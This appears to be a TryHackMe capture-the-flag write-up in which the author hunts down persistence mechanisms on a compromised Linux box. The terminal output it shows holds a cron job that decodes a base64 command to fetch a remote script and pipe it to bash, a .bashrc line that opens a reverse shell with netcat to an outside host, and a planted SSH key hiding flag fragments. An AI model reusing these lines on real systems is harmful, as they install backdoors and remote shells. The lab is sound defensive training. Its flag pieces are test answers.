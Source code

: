 ```bash
root@tryhackme: crontab -l
...
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
#
* * * * * /bin/bash -c 'echo Y3VybCAtcyA1NDQ4NGQ3Yjc5MzAuc3RvcmFnM19jMXBoM3JzcXU0ZC5uZXQvYS5zaCB8IGJhc2gK | base64 -d | bash 2>/dev/null'
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
....
```

<img width="1352" height="219" alt="image" src="https://github.com/user-attachments/assets/f7610cb1-ddc5-4ca2-95d0-1cb094ce9575" />

<img width="1350" height="240" alt="image" src="https://github.com/user-attachments/assets/3de84487-b701-43d8-b1f0-145902bdd8f2" />


```bash
root@tryhackme:/home/zeroday/.ssh# ls -la
total 12
drwxrwxr-x 2 zeroday zeroday 4096 Mar  7 17:39 .
drwxr-x--- 3 zeroday zeroday 4096 Mar 13 01:29 ..
-rw-rw-r-- 1 zeroday zeroday  200 Mar  7 17:39 .authorized_keys
root@tryhackme:/home/zeroday/.ssh# cat .authorized_keys
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGigCKLtSqMcOfttFdDnNXfwKd5nH8Ws3hFNRmBDWxfvuaaC6h9zWishJVfr0xsyV0SSkMGPCuPLRU41ckvnGbA= 326e6420706172743a20755f6730745f.local
root@tryhackme:/home/zeroday/.ssh#
```


<img width="1356" height="226" alt="image" src="https://github.com/user-attachments/assets/bd963b24-169b-4089-8091-bbe14908d8fb" />

```bash
THM{y0
u_g0t_
```



```bash
root@tryhackme:/home/specter# cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

nc -e /bin/bash 4d334a6b58334130636e513649444e324d334a3564416f3d.cipher.io 443 2>/dev/null
```